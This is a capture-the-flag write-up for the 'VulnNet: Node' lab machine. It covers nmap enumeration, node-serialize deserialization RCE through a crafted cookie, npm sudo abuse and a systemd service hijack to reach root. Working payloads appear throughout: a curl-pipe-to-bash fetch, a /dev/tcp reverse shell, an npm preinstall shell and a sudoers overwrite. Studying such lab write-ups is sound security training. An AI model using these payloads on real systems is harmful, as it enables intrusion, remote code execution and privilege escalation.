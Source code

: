 ## VulnNet: Node

# Enumeration
```
# Nmap 7.91 scan initiated Mon Apr 26 14:31:28 2021 as: nmap -sCV -oN nmap/initial -vvv -p 8080 10.10.115.175
Nmap scan report for 10.10.115.175
Host is up, received timestamp-reply ttl 61 (0.15s latency).
Scanned at 2021-04-26 14:31:29 PDT for 12s

PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 61 Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 26 14:31:41 2021 -- 1 IP address (1 host up) scanned in 13.26 seconds
```

Looks like a web server using Node.js so lets check it out and look for vulnerabilities.

# Web Server Port 8080
Initially nothing of interest seems to be present.
We have some possible admins or users
Tilo Mitra
Eric Ferraiuolo
Reid Burke
Andrew Wooldridge
This may become useful as the only link we can find on the page is to /login which requires and email address and password combination. 
At this point we examine our storage and notice that the site is storing a cookie even though we have not logged in at all.
```
eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D

```
is the value of our cookie and if we remove the url-encoding is clearly a base64 string so we decode it and find the following json structure 
```
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```

Lets go ahead and format a new json structure and see if we can bypass the login page with the following,
```
{"username":"Admin","isAdmin":true,"encoding": "utf-8"}
```

unfortunately this doesn't allow us to bypass the login page, but it must be used somehow so let's open up burpsuite and play around. Submitting it doesn't give much a response, however if we misformat/delete half of the cookie value we get an interesting error
```
SyntaxError: Unexpected token  in JSON at position 0<br> 
&nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> 
&nbsp; &nbsp;at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)<br> 
&nbsp; &nbsp;at /home/www/VulnNet-Node/server.js:16:24<br> 
&nbsp; &nbsp;at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)<br> 
&nbsp; &nbsp;at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)<br> 
&nbsp; &nbsp;at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)<br> 
&nbsp; &nbsp;at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)<br> 
&nbsp; &nbsp;at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)<br> 
&nbsp; &nbsp;at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)
```

It seems like it is using the unserialize function so perhaps we can abuse this in some way.
Searching for node js deserialization exploits yielded the following article, https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

so lets use this format to craft a payload that will curl a shell script off my system and then send me a reverse shell.
```
shell.sh
bash -i >& /dev/tcp/IP/PORT 0>&1
```

and our payload to get this
```
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl IP:PORT/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}
```

we convert this to base64 and send it and sure enough we get a reverse shell as the www user

# Initial Foothold
sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
looks like we can use npm as serv-manage user and leverage the following sudo exploit
```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

we can write in /dev/shm so lets do the following
```
www@vulnnet-node:/dev/shm$ mkdir temp
www@vulnnet-node:/dev/shm$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > temp/package.json
www@vulnnet-node:/dev/shm$ sudo -u serv-manage /usr/bin/npm -C /dev/shm/temp/ --unsafe-perm i
```
sure enough we get a shell as serv-manage and can find the user flag in it's home directory

# Root Escalation
```
sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

Looks like we can run quite a few things as root to interact with the file vulnnet-auto.timer so let take a look at it
```
serv-manage@vulnnet-node:~$ locate vulnnet-auto.timer
locate vulnnet-auto.timer
/etc/systemd/system/vulnnet-auto.timer
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-auto.timer
cat /etc/systemd/system/vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```

looks like it opens the following file
```
cat /etc/systemd/system/vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "curl IP:PORT/shell.sh | bash"

[Install]
WantedBy=multi-user.target
```

We can read and write to both of these files so we can modify this .service file to instead of executing /bin/df instead send us a reverse shell using the same shell file from earlier for example. We could aslso easily do things such as edit the sudoers file to allow our user to execute all commands as root with a payload such as the following
```
ExecStart=/bin/bash -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

Using whatever method we end up with a shell as the root user and can find the flag in the root directory.

